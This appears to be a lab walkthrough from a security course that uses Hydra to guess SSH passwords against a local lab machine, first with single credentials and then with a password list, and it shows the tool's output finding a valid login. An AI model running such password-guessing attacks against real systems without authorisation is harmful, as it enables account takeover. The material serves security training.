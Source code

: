Hydra supports several different protocols for password guessing and password spray attacks. In the simplest form, Hydra accepts a username or login name (-l) and a password (-p), followed by the service name and target IP address or host name (for example, ssh://10.10.10.10). We also specify -t 4 to limit the number of simultaneous password attempts to improve Hydra's reliability.

Use Hydra to test authentication against the root account using the SSH server service with the password sec504, as shown here:

    sec504@slingshot:~/labs/passhydra$ hydra -t 4 -l root -p sec504 ssh://127.0.0.1
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2020-07-26 13:09:04
    [DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
    [DATA] attacking ssh://127.0.0.1:22/
    1 of 1 target completed, 0 valid passwords found
    Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-26 13:09:06

In this example, Hydra was not successful in identifying a valid username and password for the specified SSH server. Repeat this command, this time specifying a login name (-l) of sec504, as shown here:

    sec504@slingshot:~/labs/passhydra$ hydra -t 4 -l sec504 -p sec504 ssh://127.0.0.1
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2020-07-26 13:10:40
    [DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
    [DATA] attacking ssh://127.0.0.1:22/
    [22][ssh] host: 127.0.0.1   login: sec504   password: sec504
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-26 13:10:41

Here we see the successful output of Hydra and a password guessing attack, noting in green (on most terminals) that the login combination sec504/sec504 was successful.

In this use case, Hydra is not too different than attempting to connect to the server using the standard ssh utility and guessing a password manually. Instead of typing the password without seeing the output with ssh, Hydra clearly shows us the successful username and password combination, but it can also accept a password list as a command line argument as well.

### Password Guessing List with Hydra

To specify a list of passwords, one per line, for Hydra to use in a password guessing attack, omit the -p argument, and add -P, followed by the file containing a short list of passwords to use for the guessing attack.

Run the command shown below, using the password list passwords.txt for the password guessing attack with the username sec504:

    sec504@slingshot:~/labs/passhydra$ hydra -t 4 -l sec504 -P passwords.txt ssh://127.0.0.1
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2020-07-26 13:11:19
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:1/p:21), ~6 tries per task
    [DATA] attacking ssh://127.0.0.1:22/
    [22][ssh] host: 127.0.0.1   login: sec504   password: sec504
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-26 13:11:30
